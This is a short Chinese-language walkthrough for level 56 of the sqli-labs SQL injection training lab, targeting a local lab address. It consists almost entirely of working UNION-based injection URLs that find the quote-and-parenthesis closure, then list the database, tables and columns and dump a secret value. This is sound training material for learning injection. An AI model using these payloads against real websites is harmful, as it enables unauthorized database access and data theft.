

# Less - 56

---

# 通关教程

---

## 1、判断闭合

---

```http
http://192.168.23.128/sqli-labs/Less-56/?id=1'--+ #回显错误
http://192.168.23.128/sqli-labs/Less-56/?id=1')--+ #回显正常
```

​​

所以闭合方式')–+，并且为字符型注入

---

## 2、查看当前库

---

```http
http://192.168.23.128/sqli-labs/Less-56/?id=-1') union select 1,2,database()--+
```

​​

---

## 3、查看challenges库下的所有表

---

```http
http://192.168.23.128/sqli-labs/Less-56/?id=-1') union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='challenges')--+
```

​​

---

## 4、查看9po9d7v0i2表下的所有字段

---

```http
http://192.168.23.128/sqli-labs/Less-56/?id=-1') union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='9po9d7v0i2')--+
```

​​

---

## 5、查看secret_AMI8字段下的值

---

```http
http://192.168.23.128/sqli-labs/Less-56/?id=-1') union select 1,2,(select group_concat(secret_AMI8) from challenges.9po9d7v0i2)--+
```

​​

​​
